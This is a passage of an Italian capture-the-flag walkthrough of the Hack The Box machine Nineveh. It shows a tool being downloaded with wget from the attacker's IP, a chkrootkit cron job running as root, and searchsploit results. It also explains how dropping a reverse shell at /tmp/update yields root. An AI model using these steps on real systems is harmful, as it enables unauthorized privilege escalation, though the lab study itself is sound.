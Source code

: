 ```bash
www-data@nineveh:/tmp$ wget http://10.10.14.34/pspy64
--2023-06-23 04:23:16--  http://10.10.14.34/pspy64
Connecting to 10.10.14.34:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.96M  1.05MB/s    in 2.8s    

2023-06-23 04:23:18 (1.05 MB/s) - 'pspy64' saved [3104768/3104768]

www-data@nineveh:/tmp$ chmod +x pspy64 

```

e lo eseguiamo, analizzando l'output vediamo questo cronjob

```bash
2023/06/23 04:27:04 CMD: UID=0     PID=5544   | /bin/sh /usr/bin/chkrootkit 
2023/06/23 04:27:04 CMD: UID=0     PID=5546   | /bin/sh /usr/bin/chkrootkit 
```

Vediamo che ogni minuto circa viene eseguito il chkrootkit. Non l'avevo mai visto prima su una macchina, quindi l'ho cercato su Google e ho scoperto che si tratta di un programma destinato ad aiutare gli amministratori di sistema a controllare il loro sistema alla ricerca di rootkit noti. Successivamente, ho cercato su Google "escalation dei privilegi di chkrootkit" e sono arrivato a questo [exploit](https://www.exploit-db.com/exploits/33899).
Esiste una vulnerabilità di escalation dei privilegi con le versioni precedenti di questo software che eseguirà qualsiasi file eseguibile denominato /tmp/update come root. Pertanto, tutto ciò che dobbiamo fare è creare un file di "update" che contenga una shell inversa e attendere che l'attività pianificata ci fornisca una shell con privilegi di root.
Per farlo, andiamo alla directory /tmp e creiamo il file update. Nel file di `update` aggiungimo il seguente codice.

Possiamo anche cercare con searchsploit

```bash

┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# searchsploit  chkrootkit  
---------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit) | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation| linux/local/33899.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results

```

